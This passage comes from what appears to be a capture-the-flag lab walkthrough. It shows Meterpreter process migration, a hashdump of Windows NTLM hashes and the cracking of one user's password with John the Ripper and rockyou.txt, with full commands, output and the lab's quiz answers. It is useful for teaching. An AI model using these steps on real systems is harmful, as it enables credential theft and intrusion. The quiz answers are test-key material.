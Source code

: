 Using the PID we try to migrate to another process

```bash
meterpreter > migrate 2668
[*] Migrating from 1340 to 2668...
[-] core_migrate: Operation failed: Access is denied.
meterpreter > migrate 2192
[*] Migrating from 1340 to 2192...
[-] core_migrate: Operation failed: Access is denied.
meterpreter > migrate 652
[*] Migrating from 1340 to 652...
[*] Migration completed successfully.
```

As you can see from the output it took a few attempts: migrating can be tricky and unstable, sometimes it may even crash your connection!  
Be aware of this and weigh the pros and cons before trying.

**Question:** What is the name of the post module we will use? **post/multi/manage/shell_to_meterpreter**  
**Question:** what option are we required to change? **SESSION**  
_We actually did not use this module explicitly but we ran the sessions -u command_

## Crack the hash

Let's keep exploring the meterpreter's superpowers and check out the `hashdump` command.  
As the name implies it dumps on the screen the hashes of the users of the system.

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

With this information we can try to crack Jon's hash to obtain his password.  
Let's create a file with the hashes as shown below:

```bash
root@ip-10-10-209-104:~/workspace# cat hash.txt
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

We use a password-cracking tool called **John the Ripper** to try to crack the hashes.  
The tool can be used in different ways, in this case we use a wordlist: basically the tool computes the hash for every word in the wordlist and compares them to the provided hashes looking for a positive match.  
The wordlist used is rockyou.txt, a very famous and common wordlist, present by default on Kali Linux.

```bash
root@ip-10-10-209-104:~/workspace# john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:00 DONE (2024-09-13 15:29) 2.040g/s 10408Kp/s 10408Kc/s 10413KC/s alr1979..alpus
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```
